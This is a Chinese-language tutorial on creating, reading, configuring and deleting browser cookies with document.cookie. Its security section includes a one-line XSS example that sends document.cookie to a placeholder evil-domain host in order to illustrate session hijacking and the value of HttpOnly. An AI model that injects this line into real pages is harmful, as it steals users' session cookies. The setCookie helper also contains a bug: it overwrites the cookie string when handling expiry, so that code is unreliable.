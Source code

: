 ## 概述
使用 `document.cookie` 属性来创建 、读取、及删除 cookie。  
匹配到当前域名（domain）和路径（path）的未过期cookie会附加到当前页面的所有请求的请求头中。

**注意**：`AJAX（XHR2）`可通过设置`xhr.withCredentials = true`以及服务器端配合设置`header("Access-Control-Allow-Credentials: true")`来支持跨域发送cookies

### 屏蔽请求中携带cookie
- 将静态资源放在不同域或子域下
- ajax请求路径在不同域或子域下

### 判断浏览器有无禁用cookie
`navigator.cookieEnabled`

### 安全
**路径限制并不能阻止从其他路径访问cookie**。使用简单的DOM即可轻易地绕过限制(比如创建一个指向限制路径的, 隐藏的`iframe`, 然后访问其 `contentDocument.cookie` 属性). 保护cookie不被非法访问的唯一方法是将它放在另一个域名/子域名之下, 利用同源策略保护其不被读取。  

Web应用程序通常使用cookies来标识用户身份及他们的登录会话。 因此通过窃听这些cookie, 就可以劫持已登录用户的会话。 窃听的cookie的常见方法包括社会工程和XSS攻击
```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
`HttpOnly` 属性可以阻止通过js访问cookie, 从而一定程度上遏制这类攻击

## 获取cookie
`document.cookie` 将以字符串的方式返回所有的 cookie 。格式如下：
```
cookie1=value; cookie2=value; cookie3=value;`
```

**获取指定的cookie值**：
```js
function getCookie(name){
    var cookies = document.cookie;
    var cookieName = encodeURIComponent(name) + '=';
    var cookieStart = document.cookie.indexOf(cookieName);
    var cookieValue = null;
    if (cookieStart > -1) {
        var cookieEnd = cookies.indexOf(';', cookieStart);
        if (cookieEnd == -1) {
            cookieEnd = cookies.length;
        }
        cookieValue = decodeURIComponent(cookies.substring(cookieStart + cookieName.length, cookieEnd));
    }
    return cookieValue;
}

// 通过正则获取cookie
function getCookie(name) {
    // (^| ) 以后面的字符或空格开始。
    // ([^;]*) 只匹配除了;号之外的所有字符。
    // (;|$) 匹配以;号或以前面的字符为结尾的字符。
    if (name && new RegExp("(^| )" + name + "=([^;]*)(;|$)").exec(document.cookie)){
        return decodeURIComponent(RegExp.$2);
    } 
}

```
## 新建或修改cookie
通过`document.cookie`重新赋值新建或修改cookie（并不会完全重写cookie，相当于添加操作）。  

**新建或修改cookie**：
```js
document.cookie="name=paul";
```

### 可配置参数

**Expires**：    
为 cookie 添加一个过期时间（以 UTC 或 GMT 时间）。默认情况下，cookie 在浏览器关闭时删除
```js
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT";
```

**Max-Age**：  
设置cookie的有效时长。单位：秒
```js
// 设置cookie有效期一年
document.cookie="name=paul; max-age=365*24*60*60";
```

**Path**：  
设置cookie的路径。默认情况下，cookie 属于当前页面。
```js
// 设置cookie属于根路径
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT; path=/";
```

**Domain**：
设置cookie的域名。默认为当前文档位置的路径的域名部分。
```js
// 设置域名为 "*.a.com"
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT; path=/;domain=.a.com";
```

**Secure**：
设置cookie是否只通过https协议传输
```js
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT; path=/;domain=.a.com;secure";
```

**HttpOnly**：阻止通过js访问cookie（一般由服务端设置）

```js
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT; path=/;domain=.a.com;secure;HttpOnly";
```

**设置或修改指定cookie**
```js
function setCookie(opts) {
    var name = opts.name;
    var value = opts.value;
    var expires = opts.expires; // 
    var path = opts.path;
    var domain = opts.domain;
    var secure = opts.secure;
    var cookieText = encodeURIComponent(name) + '=' + encodeURIComponent(value);
    if (expires) {
        switch (expires.constructor) {
        case Number: // 单位秒
          cookieText = expires === Infinity ? "; expires=Fri, 31 Dec 9999 23:59:59 GMT" : "; max-age=" + expires;
          break;
        case String:
          cookieText = "; expires=" + expires;
          break;
        case Date:
          cookieText = "; expires=" + expires.toUTCString(); // 或者 toGMTString()
          break;
        }
    }
    if (path) {
        cookieText += '; path=' + path;
    }
    if (domain) {
        cookieText += '; domain=' + domain;
    }
    if (secure) {
        cookieText += '; secure';
    }
    document.cookie = cookieText;
}
```

## 删除cookie
设置 expires 参数为以前的时间即可

```js
document.cookie = "name=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
```
**注意**：
- 删除时不必指定 cookie 的值
- 如果要删除非当前路径下的cookie，需制定`path`参数

**删除指定cookie**
```js
function removeCookie(name) {
    document.cookie = name + "= ; expires=" + new Date(0);
}
```
**清楚所有cookie**
```js
function clearCookie(path,domain){
    // 获取所有cookie的key
    var keys = document.cookie.match(/(?!\s)([^;\=]+)(?=\=.*(;|$))/g);
    var forPath = path ? ";path=" + path : "";
    forPath += domain ? ";domain=" + domain : "";
    keys.forEach(function(item,index){
        document.cookie = item + "= ; expires=" + new Date(0) + forPath;
    });
}
```

**参考**：
- [MDN：cookie](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie)
- [菜鸟教程：cookie](http://www.runoob.com/js/js-cookies.html)
